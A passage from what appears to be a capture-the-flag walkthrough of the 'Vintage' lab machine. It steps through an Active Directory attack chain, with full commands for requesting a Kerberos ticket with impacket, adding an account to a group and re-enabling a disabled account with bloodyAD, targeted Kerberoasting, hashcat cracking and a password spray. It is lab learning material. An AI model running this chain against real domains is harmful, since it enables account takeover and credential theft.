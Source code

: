 <img width="911" height="155" alt="image" src="https://github.com/user-attachments/assets/d3d0cbbb-3ce2-477e-9b3e-aa38795520da" />

12. With Bloodhound, we find our next attack path: GMSA01$ has AddSelf and GenericWrite rights on the SERVICEMANAGERS group, which also has GenericAll privileges on 3 service accounts. We will add our GMSA01$ user to the group and do a Targeted Kerberoast attack on the 3 accounts.

<img width="865" height="280" alt="image" src="https://github.com/user-attachments/assets/bc21ca18-c300-4bb8-bd0b-dfed3648bad2" />

<img width="1027" height="417" alt="image" src="https://github.com/user-attachments/assets/c18a9651-1a85-42f2-811a-8e7c82630f25" />

13. First, we need to get a Ticket Granting Ticket as the GMSA01$ user using impacket's getTGT.py script and set the ticket as the KRB5CCNAME environment variable.

`getTGT.py -hashes $(cat user/gmsa01\$.ntlm_hash) 'vintage.htb/GMSA01$@dc01.vintage.htb'`

`export KRB5CCNAME=GMSA01$@dc01.vintage.htb.ccache`

<img width="741" height="205" alt="image" src="https://github.com/user-attachments/assets/f78e3e78-5f58-4fd4-a461-e860b9029907" />

14. Now add our account to the Service Managers group using BloodyAD

`bloodyAD -k --dc-ip 10.129.231.205 --host dc01.vintage.htb -u 'GMSA01$' -d vintage.htb add groupMember SERVICEMANAGERS 'GMSA01$'`

<img width="911" height="57" alt="image" src="https://github.com/user-attachments/assets/d21b1df3-cabb-471b-83ca-5947aa03dd86" />

15. We now conduct the Targeted Kerberoast attack 

`targetedKerberoast.py -d vintage.htb -u 'GMSA01$' -k --dc-host dc01.vintage.htb`

<img width="914" height="729" alt="image" src="https://github.com/user-attachments/assets/4ff87033-1158-4646-b11d-5b012fdb47e8" />

16. However, we only get back 2 hashes, not 3. Checking Bloodhound again, it turns out the svc_sql account is disabled.

<img width="630" height="585" alt="image" src="https://github.com/user-attachments/assets/faadf77b-533b-4042-a24e-be4edf1d53c9" />

17. Enable the svc_sql account using bloodyAD

`bloodyAD -k --dc-ip 10.129.231.205 --host dc01.vintage.htb -f rc4 -u 'GMSA01$' -p [NT_HASH] -d vintage.htb remove uac svc_sql -f ACCOUNTDISABLE`

<img width="914" height="63" alt="image" src="https://github.com/user-attachments/assets/9c1363f6-642a-4f4b-913c-b6a7f7dec63a" />

18. Do the Targeted Kerberoast attack again and we get back 3 hashes this time

<img width="909" height="1060" alt="image" src="https://github.com/user-attachments/assets/ffb00fe5-33f4-4ee0-9345-253be65a6737" />

19. Cracking the hashes with hashcat gives us the plaintext password for the svc_sql user

`hashcat -m 13100 targetedKerberoast.txt /usr/share/wordlists/rockyou.txt`

<img width="912" height="332" alt="image" src="https://github.com/user-attachments/assets/091b1141-1cdf-4488-935e-9ae80c408ec9" />

20. With svc_sql's password, we do a password spray attack to see if there's any password reuse and find the user C.Neri has the same password as svc_sql
